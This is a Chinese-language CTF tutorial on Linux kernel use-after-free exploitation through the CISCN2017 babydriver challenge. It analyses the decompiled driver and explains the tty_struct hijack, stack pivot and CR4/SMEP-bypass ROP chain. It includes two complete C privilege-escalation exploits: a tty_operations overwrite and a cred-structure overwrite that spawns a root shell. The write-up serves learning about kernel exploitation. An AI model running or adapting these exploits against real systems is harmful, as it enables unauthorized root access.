

# kernel UAF

UAF 即 Use After Free，通常指的是**对于释放后未重置的垂悬指针的利用**，此前在用户态下的 heap 阶段对于 ptmalloc 的利用很多都是基于UAF漏洞进行进一步的利用。

在 CTF 当中，内核的“堆内存”主要指的是直接映射区（direct mapping area），常用的分配函数 kmalloc 从此处分配内存，常用的分配器为 slub allocator，若是在 kernel 中存在着垂悬指针，我们同样可以以此完成对 slab/slub 内存分配器的利用，通过 Kernel UAF 完成提权。

## 例题：CISCN2017 - babydriver

题目附件可在 [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/CISCN2017-babydriver) 下载。

### 分析
先解压 rootfs.cpio 看一下有什么文件
```bash
CISCN2017_babydriver [master●] mkdir core
CISCN2017_babydriver [master●] cd core 
core [master●] mv ../rootfs.cpio rootfs.cpio.gz
core [master●●] gunzip ./rootfs.cpio.gz 
core [master●] ls
rootfs.cpio
core [master●] cpio -idmv < rootfs.cpio 
.
etc
etc/init.d
etc/passwd
etc/group
...
...
usr/sbin/rdev
usr/sbin/ether-wake
tmp
linuxrc
home
home/ctf
5556 块
core [master●] ls
bin  etc  home  init  lib  linuxrc  proc  rootfs.cpio  sbin  sys  tmp  usr
core [master●] bat init
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: init
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │
   3   │ mount -t proc none /proc
   4   │ mount -t sysfs none /sys
   5   │ mount -t devtmpfs devtmpfs /dev
   6   │ chown root:root flag
   7   │ chmod 400 flag
   8   │ exec 0</dev/console
   9   │ exec 1>/dev/console
  10   │ exec 2>/dev/console
  11   │
  12   │ insmod /lib/modules/4.4.72/babydriver.ko
  13   │ chmod 777 /dev/babydev
  14   │ echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
  15   │ setsid cttyhack setuidgid 1000 sh
  16   │
  17   │ umount /proc
  18   │ umount /sys
  19   │ poweroff -d 0  -f
  20   │
───────┴────────────────────────────────────────────────────────────
```
根据 init 的内容，12 行加载了 `babydriver.ko` 这个驱动，根据 pwn 的一般套路，这个就是有漏洞的 LKM 了。init 的其他命令都是 linux 常用的命令，就不再解释了。

把这个驱动文件拿出来。

```bash
core [master●] cp ./lib/modules/4.4.72/babydriver.ko ..
core [master●] cd ..
CISCN2017_babydriver [master●] check ./babydriver.ko
./babydriver.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=8ec63f63d3d3b4214950edacf9e65ad76e0e00e7, with debug_info, not stripped
[*] '/home/m4x/pwn_repo/CISCN2017_babydriver/babydriver.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```
没有开 PIE，无 canary 保护，没有去除符号表，很 nice。

用 IDA 打开分析，既然没有去除符号表，shift + F9 先看一下有什么结构体，可以发现如下的结构体：
```asm
00000000 babydevice_t    struc ; (sizeof=0x10, align=0x8, copyof_429)
00000000                                         ; XREF: .bss:babydev_struct/r
00000000 device_buf      dq ?                    ; XREF: babyrelease+6/r
00000000                                         ; babyopen+26/w ... ; offset
00000008 device_buf_len  dq ?                    ; XREF: babyopen+2D/w
00000008                                         ; babyioctl+3C/w ...
00000010 babydevice_t    ends
00000010
```

再看一下主要函数

**babyioctl:** 定义了 0x10001 的命令，可以释放全局变量 babydev\_struct 中的 device\_buf，再根据用户传递的 size 重新申请一块内存，并设置 device\_buf\_len。
```C
// local variable allocation has failed, the output may be wrong!
void __fastcall babyioctl(file *filp, unsigned int command, unsigned __int64 arg)
{
  size_t v3; // rdx
  size_t v4; // rbx
  __int64 v5; // rdx

  _fentry__(filp, *(_QWORD *)&command);
  v4 = v3;
  if ( command == 0x10001 )
  {
    kfree(babydev_struct.device_buf);
    babydev_struct.device_buf = (char *)_kmalloc(v4, 0x24000C0LL);
    babydev_struct.device_buf_len = v4;
    printk("alloc done\n", 0x24000C0LL, v5);
  }
  else
  {
    printk("\x013defalut:arg is %ld\n", v3, v3);
  }
}
```

**babyopen:** 申请一块空间，大小为 0x40 字节，地址存储在全局变量 babydev\_struct.device\_buf 上，并更新 babydev\_struct.device\_buf\_len
```C
int __fastcall babyopen(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  babydev_struct.device_buf = (char *)kmem_cache_alloc_trace(kmalloc_caches[6], 0x24000C0LL, 0x40LL);
  babydev_struct.device_buf_len = 64LL;
  printk("device open\n", 0x24000C0LL, v2);
  return 0;
}
```

**babyread:** 先检查长度是否小于 babydev\_struct.device\_buf\_len，然后把 babydev\_struct.device\_buf 中的数据拷贝到 buffer 中，buffer 和长度都是用户传递的参数
```C
void __fastcall babyread(file *filp, char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_to_user(buffer, babydev_struct.device_buf, v4);
  }
}
```

**babywrite:** 类似 babyread，不同的是从 buffer 拷贝到全局变量中
```C
void __fastcall babywrite(file *filp, const char *buffer, size_t length, loff_t *offset)
{
  size_t v4; // rdx

  _fentry__(filp, buffer);
  if ( babydev_struct.device_buf )
  {
    if ( babydev_struct.device_buf_len > v4 )
      copy_from_user(babydev_struct.device_buf, buffer, v4);
  }
}
```

**babyrelease:** 释放空间，没什么好说的
```C
int __fastcall babyrelease(inode *inode, file *filp)
{
  __int64 v2; // rdx

  _fentry__(inode, filp);
  kfree(babydev_struct.device_buf);
  printk("device release\n", filp, v2);
  return 0;
}
```

还有 babydriver\_init() 和 babydriver\_exit() 两个函数分别完成了 **/dev/babydev** 设备的初始化和清理，查一下函数的用法即可，不再分析。

### 思路

没有用户态传统的溢出等漏洞，但存在一个伪条件竞争引发的 UAF 漏洞：

- 如果我们同时打开两个设备，第二次会覆盖第一次分配的空间，因为 babydev\_struct 是全局的。同样，如果释放第一个，那么第二个其实是被是释放过的，这样就造成了一个 UAF。

接下来考虑如何通过 UAF 劫持程序执行流，这里我们选择 `tty_struct` 结构体作为 victim object。

在 ```/dev``` 下有一个伪终端设备 ```ptmx``` ，在我们打开这个设备时内核中会创建一个 ```tty_struct``` 结构体，与其他类型设备相同，tty驱动设备中同样存在着一个存放着函数指针的结构体 ``` tty_operations ```。

那么我们不难想到的是我们可以通过 UAF 劫持 ```/dev/ptmx``` 这个设备的 ```tty_struct``` 结构体与其内部的 ```tty_operations``` 函数表，那么在我们对这个设备进行相应操作（如write、ioctl）时便会执行我们布置好的恶意函数指针。

由于没有开启SMAP保护，故我们可以在用户态进程的栈上布置ROP链与 ```fake tty_operations``` 结构体。

> 结构体 ```tty_struct```位于```include/linux/tty.h``` 中，```tty_operations``` 位于 ```include/linux/tty_driver.h``` 中。
 
内核中没有类似 ```one_gadget``` 一类的东西，因此为了完成ROP我们还需要进行一次**栈迁移**

使用gdb进行调试，观察内核在调用我们的恶意函数指针时各寄存器的值，我们在这里选择劫持 ```tty_operaionts``` 结构体到用户态的栈上，并选择任意一条内核gadget作为fake tty函数指针以方便下断点：


我们不难观察到，在我们调用```tty_operations->write```时，**其rax寄存器中存放的便是tty\_operations结构体的地址**，因此若是我们能够在内核中找到形如```mov rsp, rax```的gadget，便能够成功地将栈迁移到```tty_operations```结构体的开头。

使用ROPgadget查找相关gadget，发现有两条符合我们要求的gadget：



gdb调试，发现第一条gadget其实等价于```mov rsp, rax ; dec ebx ; ret```：


那么利用这条gadget我们便可以很好地完成栈迁移的过程，执行我们所构造的ROP链。

而```tty_operations```结构体开头到其write指针间的空间较小，因此我们还需要进行二次栈迁移，这里随便选一条改rax的gadget即可：


### Exploit

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

#define POP_RDI_RET 0xffffffff810d238d
#define POP_RAX_RET 0xffffffff8100ce6e
#define MOV_CR4_RDI_POP_RBP_RET 0xffffffff81004d80
#define MOV_RSP_RAX_DEC_EBX_RET 0xffffffff8181bfc5
#define SWAPGS_POP_RBP_RET 0xffffffff81063694
#define IRETQ_RET 0xffffffff814e35ef

size_t commit_creds = NULL, prepare_kernel_cred = NULL;

size_t user_cs, user_ss, user_rflags, user_sp;

void saveStatus()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

void getRootPrivilige(void)
{
    void * (*prepare_kernel_cred_ptr)(void *) = prepare_kernel_cred;
    int (*commit_creds_ptr)(void *) = commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}

void getRootShell(void)
{   
    if(getuid())
    {
        printf("\033[31m\033[1m[x] Failed to get the root!\033[0m\n");
        exit(-1);
    }

    printf("\033[32m\033[1m[+] Successful to get the root. Execve root shell now...\033[0m\n");
    system("/bin/sh");
}

int main(void)
{
    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");
    saveStatus();

    //get the addr
    FILE* sym_table_fd = fopen("/proc/kallsyms", "r");
    if(sym_table_fd < 0)
    {
        printf("\033[31m\033[1m[x] Failed to open the sym_table file!\033[0m\n");
        exit(-1);
    }
    char buf[0x50], type[0x10];
    size_t addr;
    while(fscanf(sym_table_fd, "%llx%s%s", &addr, type, buf))
    {
        if(prepare_kernel_cred && commit_creds)
            break;

        if(!commit_creds && !strcmp(buf, "commit_creds"))
        {
            commit_creds = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of commit_cread:\033[0m%llx\n", commit_creds);
            continue;
        }

        if(!strcmp(buf, "prepare_kernel_cred"))
        {
            prepare_kernel_cred = addr;
            printf("\033[32m\033[1m[+] Successful to get the addr of prepare_kernel_cred:\033[0m%llx\n", prepare_kernel_cred);
            continue;
        }
    }

    size_t rop[0x20], p = 0;
    rop[p++] = POP_RDI_RET;
    rop[p++] = 0x6f0;
    rop[p++] = MOV_CR4_RDI_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = getRootPrivilige;
    rop[p++] = SWAPGS_POP_RBP_RET;
    rop[p++] = 0;
    rop[p++] = IRETQ_RET;
    rop[p++] = getRootShell;
    rop[p++] = user_cs;
    rop[p++] = user_rflags;
    rop[p++] = user_sp;
    rop[p++] = user_ss;

    size_t fake_op[0x30];
    for(int i = 0; i < 0x10; i++)
        fake_op[i] = MOV_RSP_RAX_DEC_EBX_RET;

    fake_op[0] = POP_RAX_RET;
    fake_op[1] = rop;

    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    ioctl(fd1, 0x10001, 0x2e0);
    close(fd1);

    size_t fake_tty[0x20];
    int fd3 = open("/dev/ptmx", 2);
    read(fd2, fake_tty, 0x40);
    fake_tty[3] = fake_op;
    write(fd2, fake_tty, 0x40);

    write(fd3, buf, 0x8);

    return 0;
}
```

### Old Solution

这道题在当年的解法是**通过 UAF 修改该进程的 cred 结构体的 uid、gid 为0**，十分简单十分白给。

但是**此种方法在较新版本 kernel 中已不可行，我们已无法直接分配到 cred\_jar 中的 object**，这是因为 cred\_jar 在创建时设置了 `SLAB_ACCOUNT` 标记，在 `CONFIG_MEMCG_KMEM=y` 时（默认开启）**cred\_jar 不会再与相同大小的 kmalloc-192 进行合并**

> 来自内核源码 4.5 `kernel/cred.c`
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
> 			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
> }
> ```
>
> 本题（4.4.72）：
>
> ```c
> void __init cred_init(void)
> {
> 	/* allocate a slab in which we can store credentials */
> 	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
> 				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
> }
> ```

因此这里考虑介绍更加通用的解法，对旧的解法感兴趣的可以参考如下exp：

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

int main(void)
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    printf("\033[34m\033[1m[*] Start to exploit...\033[0m\n");

    ioctl(fd1, 0x10001, 0xa8); /* object to be reused as the child's cred */
    close(fd1);

    int pid = fork();

    if(pid < 0) {
        printf("\033[31m\033[1m[x] Unable to fork.\033[0m\n");
        return -1;
    }
    else if(pid == 0) { /* the child to get the UAF cred */
        char buf[30];

        memset(buf, '\0', sizeof(buf));
        write(fd2, buf, 28);  /* overwrite uid&gid to 0 directly */

        if(getuid() == 0) {
            puts("\033[32m\033[1m[+] Successful to get the root.\033[0m\n");
            system("/bin/sh");
            return 0;
        } else {
            printf("\033[31m\033[1m[x] Failed to get the root.\033[0m\n");
            return -1;
        }
    }
    else { /* the parent */
        wait(NULL); /* waiting for the child to be done */
    }

    return 0;
}
```


## Reference

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x04-Kernel-Heap-Use-After-Free

https://bbs.pediy.com/thread-247054.htm

https://whereisk0shl.top/NCSTISC%20Linux%20Kernel%20pwn450%20writeup.html

http://muhe.live/2017/07/13/babydriver-writeup/

https://www.anquanke.com/post/id/86490
